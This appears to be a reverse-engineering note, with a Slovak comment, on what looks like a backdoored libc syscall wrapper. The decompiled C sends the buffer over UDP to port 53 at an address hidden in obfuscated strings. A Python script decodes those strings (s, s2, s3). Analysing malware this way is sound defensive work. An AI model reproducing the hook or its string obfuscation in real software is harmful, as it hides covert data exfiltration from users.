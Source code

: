 ```c
      addr.sin_zero[3] = '\0';
      addr.sin_zero[4] = '\0';
      addr.sin_zero[5] = '\0';
      addr.sin_zero[6] = '\0';
      addr.sin_zero[7] = '\0';
      addr.sin_family = 2;
      addr.sin_port = 0x3500;
      __inet_pton(2,s3,&addr.sin_addr);
      sVar4 = strlen_ifunc((char *)s);
      FUN_00124660(0x2c,iVar7,s,sVar4,0,&addr,0x10);
      FUN_00124660(0x2c,iVar7,__buf);
      FUN_00124660(3,iVar7);
    }
  }
  lVar3 = __syscall_cancel((long)__fd,(__syscall_arg_t)__buf,__n,0,0,0,1);
  return lVar3;
}
```

Čo sa skrýva v s, s2 a s3 mi povie tento python skript

```python
s = bytearray([
    0xea, 0x06, 0xe0, 0x44, 0x23, 0x20, 0x96, 0xcc,
    0x1e, 0xae, 0x64, 0xe3, 0x00, 0x09, 0xeb, 0x27,
    0xd5, 0xd7, 0xac, 0x81, 0xea, 0xd5, 0x5e, 0xdf,
    0x5a, 0xae, 0x2c, 0x14, 0xfc
])

for i in range(len(s)):
    b1 = i & 0xff
    old = s[i]
    b2 = (((~(old ^ b1) - b1) ^ b1) + b1) & 0xff
    part = ((b2 << 3) | (b2 >> 5)) & 0xff
    val = (((-((part + b1) & 0xff)) ^ b1) - b1) ^ b1
    val = ((val + 0x81) ^ 0x74) & 0xff
    s[i] = (b1 - val) & 0xff

s2 = bytearray([
    0x06, 0x09, 0x0c, 0x85, 0x12, 0x8f, 0x82, 0x81,
    0x16, 0x15, 0x91, 0x85, 0x90, 0x3c
])

for i in range(len(s2)):
    b1 = i & 0xff
    v = s2[i]
    inner = (((((v + b1) ^ b1) + 99) ^ b1) + 0x78) ^ 0x7f
    inner = (inner + b1) & 0xff
    b2 = ((-inner) & 0xff) ^ 0xe0
    high_bit = 1 if (b2 & 0x80) else 0
    rol = ((b2 << 1) & 0xff) | high_bit
    s2[i] = ((rol ^ b1) + (44 - b1)) & 0xff

s3 = bytearray(16)
s3[:14] = s2


print("s  :", s.decode('ascii', errors='ignore'))
print("s2 :", s2.decode('ascii', errors='ignore'))
print("s3 :", s3.decode('ascii', errors='ignore'))
```
